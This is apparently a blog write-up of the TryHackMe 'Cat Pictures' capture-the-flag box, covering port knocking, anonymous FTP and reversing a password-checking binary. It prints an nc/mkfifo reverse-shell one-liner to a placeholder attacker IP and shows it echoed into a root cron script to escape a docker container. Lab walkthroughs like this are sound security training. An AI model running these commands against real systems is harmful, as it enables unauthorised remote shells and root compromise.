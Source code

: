 ```yaml
---
layout: single
classes: wide
title: "TryHackMe Cat Pictures"
header:
  teaser: /assets/images/apa.png
excerpt: "Cat Pictures is an easy box that I found on Tryhackme."
---
```


Cat Pictures is an easy box that I found on Tryhackme by [gamercat](https://tryhackme.com/p/gamercat). I find this box useful for learning, so if you are a beginner, do not hesitate to do it.

 1. [NMAP(Port Scanning)](#nmap)
 2. [Web server](#web-server)
 3. [Port knocking](#port-knocking)
 4. [Discover new open port](#new-open-port)
 5. [Internal Shell Service](#internal-shell-service-4420)
 6. [Reverse Engineering](#reverse-engineering)
 7. [Escaping docker container!](#escaping-docker-container)
 
## NMAP
#### Basic scan
 So first, with an nmap basic scan that shows us 2 open ports on the machine :
 
 ![Nmap](https://i.imgur.com/r5s4F7u.png)
 
## Web server
At the website we are greeted with the phpBB forum "Cat Pictures".
There is only one post, who is it :

![site](https://i.imgur.com/iTbyWYs.png)


## Port knocking
To understand, you must first know what "Port knocking" is : [port knocking Wikipedia](https://en.wikipedia.org/wiki/Port_knocking)
So basically we just have to knock the ports we have.

![knock knock](https://i.imgur.com/1H58hzg.png)


## New open port 
By doing a netcat again, we find that port 21(ftp) is now "open" and anonymous login is alloweed.
In the FTP we have just a file named "note.txt"
Let's read its contents :

    ❯ cat note.txt   

> "In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
Connect to port 4420, the password is s******t.
Catlover"

So let's connect to port 4420 with the password>

## Internal Shell Service (4420)

![ISS](https://i.imgur.com/PfqlWIK.png)

We get some kind of internal custom shell that is quite limited. This also might be running in a docker container. 
#### Interesting file
In the /home/catlover we can see an interesting file named "runme".
Trying to execute it with the internal shell yields no results:

    ❯ home/catlover/runme

> THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.

So let's try to have a better shell.

In the "/bin" folder, there is nc so let's just do a rev shell with -> 

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
    
![rev1](https://i.imgur.com/B2robFX.png)

Now we can execute the binary :

    ./runme 
    Please enter yout password: test
    Access Denied
    
So let's transfer the binary to my machine so that we can analyze it.

## Reverse Engineering
I reverse it with radare2, but it's easily doable with ghidra, gdb, IDA or any simple disassembler. 
To download it : 
on attacking machine : 

    nc -vlp PORT > runme
    nc -N ATTACKING_IP PORT < /home/catlover/runme
    
So let's disass it with r2 now :

![disas](https://i.imgur.com/Yog9NfJ.png)

Now we have the pass of the binary.
Let's run it to see.

![key](https://i.imgur.com/YOmnTKk.png)

Nice! We can now login in the ssh

Don't forget to chmod 600 the key :)

## Escaping docker container

We are now root of the docker, we can see the first flag and try to find a way to escape.
A quick [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) scan shows us the following :

    ...
    [+] System stats
    Filesystem      Size  Used Avail Use% Mounted on
    overlay          20G  7.3G   12G  40% /
    tmpfs            64M     0   64M   0% /dev
    tmpfs           492M     0  492M   0% /sys/fs/cgroup
    shm              64M     0   64M   0% /dev/shm
    /dev/xvda1       20G  7.3G   12G  40% /opt/clean
    ...

Let's check the "/opt/clean" folder.
In this folder, there is a simple bash script "clean.sh that we can edit."

    #!/bin/bash
    rm -rf /tmp/*
    
It looks like this script could be run as a cron job on the root host system to clean up the "/tmp"

So let's echo a reverse shell in it to try. 

    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > clean.sh

Just wait..

![root](https://i.imgur.com/evytCkD.png)

**rooted!**

